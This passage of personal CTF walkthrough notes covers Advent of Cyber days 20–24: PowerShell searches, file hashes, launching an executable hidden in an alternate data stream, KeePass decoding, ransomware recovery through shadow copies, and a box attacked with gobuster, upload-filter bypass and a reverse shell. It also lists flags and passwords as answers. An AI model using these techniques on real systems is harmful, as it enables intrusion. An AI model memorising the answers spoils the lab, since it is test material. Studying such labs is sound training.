    - `-Recurse` -> Gets the items in the specified locations and in all child items of the locations.

    - `-Hidden` -> To get only hidden items, use the Hidden parameter.

    - `-ErrorAction SilentlyContinue` -> Specifies what action to take if the command encounters an error.

- For example, if you want to view all of the hidden files in the current directory you are in, you can issue the following command: `Get-ChildItem -File -Hidden -ErrorAction SilentlyContinue`

- Another useful cmdlet is `Get-Content` -> allow you to read the contents of a file.

	- Ex: `Get-Content -Path file.txt`

	- you can run numerous operations with the `Get-Content` cmdlet to give you more information about the particular file you are inspecting, such as how many words are in the file and the exact positions for a particular string within a file.

- to get the number of words contained within a file, you can use the `Get-Content` cmdlet and *pipe* the results to the `Measure-Object` cmdlet.

	- `Get-Content -Path file.txt | Measure-Object -Word`	

- To get the exact position of a string within the file, you can use the following command:  `(Get-Content -Path file.txt)[index]`

	- The index is the numerical value that is the location of the string within the file. 

		- Since indexes start at zero, you typically need to subtract one from the original value to extract the string at the correct position.

- To change directories, you can use the `Set-Location` cmdlet.

	- `Set-Location -Path c:\users\administrator\desktop`

- `Select-String` cmdlet will search a particular file for a pattern you define within the command to run.

	- `Select-String -Path 'c:\users\administrator\desktop' -Pattern '*.pdf'`

> Note: You can always use the `Get-Help` cmdlet to obtain more information about a specific cmdlet. For example, `Get-Help Select-String`


- You can also do `ls -Hidden -Directory` or `dir -Hidden -File`, because `ls` and `dir` are **aliases**

### Questions

1. Search for the first hidden elf file within the Documents folder. Read the contents of this file. What does Elf 1 want?

- displayed all of the hidden files and got the content of the one about the elf



A: 2 front teeth

2. Search on the desktop for a hidden folder that contains the file for Elf 2. Read the contents of this file. What is the name of that movie that Elf 2 wants?

- Changed directory to Desktop and then searched for a hidden directory

- changed to that directory and list all files in there.

- output the contents of that file



A: Scrooged

3. Search the Windows directory for a hidden folder that contains files for Elf 3. What is the name of the hidden folder? (This command will take a while)

- You have to go to 'c:\Windows\System32' and search there.



A: 3lfthr3e

4. How many words does the first file contain?



A: 9999

5. What 2 words are at index 551 and 6991 in the first file?



A: Red Ryder

6. This is only half the answer. Search in the 2nd file for the phrase from the previous question to get the full answer. What does Elf 3 want? (use spaces when submitting the answer)



A: red ryder bb gun

## [Day 21] `Blue Teaming` Time for some ELForensics

#powershell #hash

- a hash is basically a signature of a file

- A file hash, or simply a hash, is a mathematical algorithm that analyzes the data of the file and outputs a value, which is its hash. 

- File hashes let us know whether a file is legitimate or not based on its verified file hash. 

	- If the file has been replaced or altered, the file hash will be different.

- With PowerShell, we can obtain the hash of a file by running the following command: `Get-FileHash -Algorithm MD5 file.txt`

- Another tool you can use to inspect within a binary file (.exe) is `Strings.exe`. 

- Strings scans the file you pass it for strings of a default length of 3 or more characters. 

	- You can use the Strings tool to peek inside this mysterious executable file. 

	- The tool is located within C:\Tools

- The command to run for the Strings tool to scan the mysterious executable: `c:\Tools\strings64.exe -accepteula file.exe`

-  the output, you should notice a command related to ADS. You know this by the end of the Powershell command `-Stream`.

#ads #ntfs

- **Alternate Data Streams (ADS)** is a file attribute specific to Windows **NTFS (New Technology File System)**. 

- Every file has at least one data stream ($DATA) and ADS allows files to contain more than one stream of data. 

	- Natively Window Explorer doesn't display ADS to the user. 

- There are 3rd party executables that can be used to view this data, but Powershell gives you the ability to view ADS for files

- Malware writers have used ADS to hide data in an endpoint, but not all its uses are malicious. 

- When you download a file from the Internet unto an endpoint there are identifiers written to ADS to identify that it was downloaded from the Internet.

- The command to view ADS using Powershell: `Get-Item -Path file.exe -Stream *`

- There are a few lines of output when you run this command. 
	- Pay particularly close attention to **Stream** and **Length**.

- Recall that the *database connector file* is an executable file, and it's hidden within an alternate data stream for another file. 

- We can use a built-in Windows tool, **Windows Management Instrumentation**, to launch the hidden file.

- The command to run to launch the hidden executable hiding within ADS: `wmic process call create $(Resolve-Path file.exe:streamname)`

### Questions

1. Read the contents of the text file within the Documents folder. What is the file hash for db.exe?



A: 596690FFC54AB6101932856E6A78E3A1 

2. What is the file hash of the mysterious executable within the Documents folder?



A: 5F037501FB542AD2D9B06EB12AED09F0 

3. Using Strings find the hidden flag within the executable?



A: THM{f6187e6cbeb1214139ef313e108cb6f9}

4. What is the flag that is displayed when you run the database connector file?




A: THM{088731ddc7b9fdeccaed982b07c297c}

## [Day 22] `Blue Teaming` Elf McEager becomes CyberElf

#passwordmanagers #keepass #cyberchef

- **Password managers** are the norm these days. 

- There are many cloud-based password managers but there also are password managers you run locally on your endpoint, such as **KeePass**. 

	- KeePass is an executable that allows you to store all types of data, including passwords, in a password-protected database.

### Questions

1. What is the password to the KeePass database?



A: thegrinchwashere

2. What is the encoding method listed as the 'Matching ops'?



A: Base64

3. What is the decoded password value of the Elf Server?



- it is hex encoded, as Cyberchef confirms

A: sn0wM4n!

4. What is the decoded password value for ElfMail?



A: ic3Skating!

5. Decode the last encoded value. What is the flag?

- this one was a little bit more tricky

- the password was 'nothinghere'. But if I double click the entry I get a lot of stuff in the Notes section.

- using the hint, I use the From Charcode Recipe twice, which gives me a github link





- going to the link we can find the flag



A: THM{657012dcf3d1318dca0ed864f0e70535}

## [Day 23] `Blue Teaming` The Grinch strikes again!

#ransomware #vss

- **Ransomware** is a type of malware that threatens to publish the victim's data or perpetually block access to it unless a ransom is paid. 

- If ransomware infects an endpoint, depending on the actual malware, there might be a decryptor made available by a security vendor. 

- If not then you must rely on backups in order to restore your machines to the last working state, along with its files. 

	- Windows has a built-in feature that can assist with that.

- The **Volume Shadow Copy Service (VSS)** coordinates the actions that are required to create a consistent shadow copy (also known as a snapshot or a point-in-time copy) of the data that is to be backed up. 

- Malware writers know of this Windows feature and write code in their malware to look for these files and delete them. 

	- Doing so makes it impossible to recover from a ransomware attack unless you have an offline/off-site backup.

- **The Task Scheduler** enables you to automatically perform routine tasks on a chosen computer. 

	- Task Scheduler does this by monitoring whatever criteria you choose (referred to as triggers) and then executing the tasks when those criteria are met.

- The command to interact with VSS is `vssadmin`.

- Running the command alone will display brief information on how to run the utility with additional commands. 

	- Two commands of particular interest are `List Volumes` and `List Shadows`.

- **Disk Management** is a system utility in Windows that enables you to perform advanced storage tasks. 


### Questions

1. Decrypt the fake 'bitcoin address' within the ransom note. What is the plain text value?

- decrypt base 64 string

A: nomorebestfestivalcompany

2. At times ransomware changes the file extensions of the encrypted files. What is the file extension for each of the encrypted files?

A: .grinch

3. What is the name of the suspicious scheduled task?



A: opidsfsdf

4. Inspect the properties of the scheduled task. What is the location of the executable that is run at login?

A: C:\Users\Administrator\Desktop\opidsfsdf.exe

5. There is another scheduled task that is related to VSS. What is the ShadowCopyVolume ID?

A: 7a9eea15-0000-0000-0000-010000000000

6. Assign the hidden partition a letter. What is the name of the hidden folder?

A: confidential

7. Right-click and inspect the properties for the hidden folder. Use the 'Previous Versions' tab to restore the encrypted file that is within this hidden folder to the previous version. What is the password within the file?

A: m33pa55w0rdIZseecure!

## [Day 24] `Special by DarkStar` The Trial Before Christmas

### Questions

1. Scan the machine. What ports are open?

- I firstly did a normal scan which found only port 80. Then did a scan only for ports 10000-65535

A: 80, 65000

2. What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step. 

- the one on port 80 is just thm's website, so I treid the other port found which redirected me to a different website



A: Light Cycle

3. What is the name of the hidden php page?

- used the command `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u <ip>:65000/ -x php`

A: uploads.php

4. What is the name of the hidden directory where file uploads are saved?

- used gobuster without `-x` flag

A: grid

5. Bypass the filters. Upload and execute a reverse shell. 

#client-sidefilters

- In many ways, client-side filters are easier to bypass than their server-side equivalents as they execute on your own attacking computer -- putting them under the control of an attacker. 

	- For this reason, client-side filters should never be used as the sole security measure for the file upload functionality on a website.

>how would we bypass a client-side filter?

- The easiest way is by using BurpSuite to intercept the JavaScript code file containing the filter before it ever actually reaches our browser, then either drop the file entirely or remove the filter from the code.

6. What is the value of the web.txt flag?

A:

7. Upgrade and stabilize your shell. 

A:

8. Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? username:password

A:

9. Access the database and discover the encrypted credentials. What is the name of the database you find these in?

A:

10. Crack the password. What is it?

A:

11. Use su to login to the newly discovered user by exploiting password reuse. 

A:

12. What is the value of the user.txt flag?

A:

13. Check the user's groups. Which group can be leveraged to escalate privileges? 

A:

14. Abuse this group to escalate privileges to root.

A:

15. What is the value of the root.txt flag?

A:
